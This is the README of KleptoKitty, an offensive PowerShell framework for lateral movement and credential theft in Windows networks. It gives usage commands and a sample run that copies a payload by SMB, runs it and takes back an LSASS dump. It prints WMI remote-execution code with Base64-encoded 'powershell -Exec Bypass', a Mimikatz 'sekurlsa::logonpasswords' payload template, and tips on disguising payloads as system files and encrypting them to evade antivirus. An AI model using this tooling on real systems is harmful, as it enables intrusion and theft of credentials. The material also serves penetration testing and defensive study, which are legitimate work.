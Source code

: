 # KleptoKitty

KleptoKitty - Deploys payloads and collects credentials.

## Introduction

KleptoKitty, the twin sister of HardeningKitty is a PowerShell based framework for lateral movement attacks in a Windows infrastructure. The development started in October 2019 after inspiration of the cypherpunk and hacker [Tinker](https://twitter.com/TinkerSec). Payloads include Invoke-Mimikatz from [Empire](https://github.com/BC-SECURITY/Empire) by [BC Security](https://www.bc-security.org/blog), [Mimikatz](https://github.com/gentilkiwi/mimikatz) by [Benjamin Delpy](https://twitter.com/gentilkiwi) and [PPLKiller](https://github.com/RedCursorSecurityConsulting/PPLKiller) by [Red Cursor](https://www.redcursor.com.au/).

Standard Windows components are used for file transfer and remote command execution. Most functions are controlled by PowerShell. By default, files are copied to the target system via SMB/Admin shares. For remote execution of commands, Windows Management Instrumentation (WMI), PsExec or Windows Remote Management (WinRM)can be used. The goal is to get local credentials (SAM) and credentials of active accounts in Windows LSA memory.

There is a [scip Labs article about KleptoKitty](https://www.scip.ch/en/?labs.20200917). This README is largely based on the Labs article, but will be adapted in the future according to development of KleptoKitty.

## How to run

Download KleptoKitty and copy it to the target system. The payloads have to be built by yourself. If unencrypted payloads are used, there is a risk that scripts such as Invoke-Mimikatz could be detected by anti-virus software. KleptoKitty does not need administrative privileges to run. But for running KleptoKitty on the target system administrative rights are required. The credentials are requested at the beginning of the script.

```powershell
PS C:\> Import-Module -Force .\Invoke-KleptoKitty.ps1
PS C:\> Invoke-KleptoKitty -ComputerName 192.168.244.130 -CredentialAccess SqlDumper

      =^._.^=
     _(      )/  KleptoKitty


[*] 8/7/2020 8:45:29 AM - Starting KleptoKitty

cmdlet Get-Credential at command pipeline position 1
Supply values for the following parameters:
Credential
[*] 8/7/2020 8:45:42 AM - Connecting to 192.168.244.130 and mapping system drive
[*] 8/7/2020 8:45:42 AM - Copy payload MsSpellCheckingFacility.ps1 to 192.168.244.130
[*] 8/7/2020 8:45:42 AM - Execute payload on 192.168.244.130
[$] 8/7/2020 8:45:42 AM - Payload  executed.
[-] 8/7/2020 8:45:42 AM - Let SqlDumper finish. Waiting for 30 seconds!
[*] 8/7/2020 8:46:12 AM - Retrieving dump file
[$] 8/7/2020 8:46:14 AM - Dump file 192.168.244.130_sqldumper.mdmp saved.
[*] 8/7/2020 8:46:14 AM - Delete payload and dump file on 192.168.244.130
[*] 8/7/2020 8:46:14 AM - Delete drive
[*] 8/7/2020 8:46:14 AM - 192.168.244.130 done
[*] 8/7/2020 8:46:14 AM - KleptoKitty is done
```

## "Hello" World with KleptoKitty

The payload _Demo_ is a good example to explain the functionality of KleptoKitty. The payload is copied to the target and executed there. The payload leaves a log entry in the newly created file under _C:\Windows\kleptokitty.log_:

```powershell
$ProtocolPath = "C:\Windows\kleptokitty.log"
$Time = Get-Date -Format G
$Message = "$Time - KleptoKitty was here."
Add-Content -Path $ProtocolPath -Value $Message
```

For the payload _Demo_, only a file needs to be copied and executed on target. It is not necessary to extract a log file. The name of the payload is generated randomly at runtime for each target system. It is intended to give a harmless impression by using names of Windows system files. In the first step, the payload is copied. If this fails, further execution will be stopped. The payload is then executed and afterwards deleted from the system:

```powershell
# Copy Payload
Write-ProtocolEntry -Text "Copy payload $TargetPayloadName to $Hostname" -LogLevel "Info"
$ResultCopyPayload = Copy-Payload -Source $PayloadPathCredentialAccess -Destination $TargetPayloadPath
If (-not($ResultCopyPayload)) { Continue }

# Execute Payload
Write-ProtocolEntry -Text "Execute payload on $Hostname" -LogLevel "Info"
$PayloadCommandCredentialAccess = "$TargetPayloadLocalPath"
$ResultExecutePayload = Execute-Payload -PayloadCommand $PayloadCommandCredentialAccess
If ($ResultExecutePayload) {
    Write-ProtocolEntry -Text "Payload $PayloadCredentialAccess executed." -LogLevel "Success"
}

# House Cleaning
Write-ProtocolEntry -Text "Delete payload on $Hostname" -LogLevel "Info"
Delete-File -File $TargetPayloadPath
```

The remote command execution is done using WMI. A new process is created and powershell.exe is started. Optionally, the arguments of the payload can be encoded with Base64 and thus disguised. However, if PowerShell Script Block Logging is enabled, the execution call is stored decoded in the event log. Additionally, the use of Base64 encoding might be an indicator for a malicious action. The use of this obfuscation is optional and can be controlled when the function is called.

```powershell
Code $PayloadCommandEncoded = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($PayloadCommand))
$ArgumentList = "powershell.exe -Exec Bypass -Enc $PayloadCommandEncoded"

try {
    $WmiExec = Invoke-WmiMethod -Class "win32_process" -Name "create" -ArgumentList $ArgumentList -ComputerName $Hostname -Credential $AdminCredential -ErrorAction Stop
} catch {
    $ErrorReason = $_.Exception.Message
    Write-ProtocolEntry -Text "WMI connection to $Hostname failed. Reason: $ErrorReason" -LogLevel "Error"
    Write-ProtocolEntry -Text "$Hostname done" -LogLevel "Error"
    $ReturnCode = $false 
}
```

Once the payload has been started on the target system, the process can only be monitored indirectly. Therefore, if a log file is written and should be copied back, it is worth waiting a while before taking further steps.

## Structure of a Payload

The following example is based on a payload with Invoke-Mimikatz. The Invoke-Mimikatz function itself is copied to the payload. This is followed by the definition of a log file for the Mimikatz log file. The name of the log file must be known to KleptoKitty, otherwise the log file cannot be extracted. Then the Mimikatz statements to be executed are defined. In the following example the credentials of active users on the system are dumped from memory:

```powershell
Function FormerlyKnownAsMimikatz {
    # <add the script here>
}

# Log
$TargetBasePath = "Windows"
$TargetLogName = "de-ch.log"
$TargetLogLocalPath = "C:\$TargetBasePath\$TargetLogName"

# Run Payload
FormerlyKnownAsMimikatz -Command """log $TargetLogLocalPath"" privilege::debug sekurlsa::logonpasswords"
```

The payload itself can also be encoded with Base64 or encrypted with Rijndael. For the encryption, a script based on an [example implementation by Kae Travis](https://www.alkanesolutions.co.uk/2015/05/20/rijndael-encryption-and-decryption-in-c-and-powershell/) is used. The encoding or encryption disguises the payload, so that it can escape detection by a virus scanner. However, the decoding/decryption process is done at runtime. Virus scanners with support for Microsoft AMSI can therefore scan the unprotected version of the payload.